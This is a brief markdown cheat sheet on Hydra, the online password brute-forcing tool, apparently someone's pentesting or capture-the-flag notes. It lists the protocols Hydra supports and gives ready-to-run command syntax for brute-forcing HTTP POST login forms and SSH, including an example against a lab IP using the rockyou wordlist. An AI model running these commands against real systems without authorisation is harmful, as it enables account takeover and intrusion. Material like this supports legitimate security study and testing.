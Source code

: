 # [Overview](https://en.kali.tools/?p=220)
* Hydra is a brute force online password cracking program.
* Ability to brute force a whole lot of protocols:
```
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
```
	
# Https Post Form
* General syntax: `hydra -l <username> -P <wordlist> <Target IP> http-post-form "<URL PATH>:<Post Arg>=^<KEY>^:<TAGS>`
	* Example: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login:username^USER^&password=^PASS^:F=incorrect"`

# SSH
* General syntax: `hydra -l <username> -P <absolute path to passwords file> <Target IP> -t <thread count> ssh`

